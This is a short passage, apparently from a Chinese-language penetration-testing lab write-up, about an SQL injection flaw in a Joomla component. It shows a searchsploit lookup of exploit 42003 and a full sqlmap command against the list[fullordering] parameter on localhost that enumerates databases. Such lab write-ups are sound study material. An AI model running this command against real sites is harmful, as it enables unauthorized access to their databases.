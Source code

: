 存在sql注入漏洞

 

### 查看该漏洞

```
searchsploit -x 42003
```

![image-20250312232518319](./assets/image-20250312232518319.png)

![image-20250312232521510](./assets/image-20250312232521510.png)

提供了sqlmap注入的payload

```
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
